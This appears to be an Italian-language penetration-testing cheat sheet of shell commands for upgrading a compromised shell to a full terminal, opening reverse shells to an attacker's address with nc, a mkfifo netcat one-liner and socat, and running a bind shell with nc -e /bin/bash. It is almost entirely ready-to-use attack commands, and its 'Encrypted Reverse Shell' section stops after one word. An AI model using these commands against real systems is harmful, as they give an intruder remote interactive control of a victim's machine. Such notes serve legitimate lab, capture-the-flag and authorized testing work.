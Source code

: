 
# Upgrade Shell
Macchina Vittima
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Macchina Attaccante (segnare il numero di righe e colonne)
```bash
stty -a 
```
Macchina Vittima (sostituire il numero di righe e colonne con quelle segnate)
```bash
export TERM=xterm-256color
stty rows 38 columns 169
^Z
```
**RICORDA** ^Z = (Ctrl + Z)
Macchina Attaccante 
```bash
stty -raw echo; fg
```
-------------------------
# Reverse-shell
## nc
### Macchina attaccate
```bash
nc -lvnp <PORT>
```
### Macchina vittima
```bash
nc <MIO_IP> <PORT>
```
#### Reverse shell per OpenBSD netcat
Reverse shell per ambienti con netcat compilati senza il flag *-DGAPING_SECURITY_HOLE* (OpenBSD version)
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <MIO_IP> <PORT> >/tmp/f
```
## socat
Macchina  attaccante
```bash
socat -d TCP4-LISTEN:<PORT> STDOUT
```
Macchina vittima 
```bash
socat TCP4:<MIO_IP>:<PORT> EXEC:/bin/bash
```
#### Encrypted Reverse Shell
Inizialmente 

-------------------------
# Bind shell 
Macchina vittima
```bash
nc -lvnp 4242 -e /bin/bash
```
Macchina attaccante
```bash
nc <IP VITTIMA> <PORT>
```

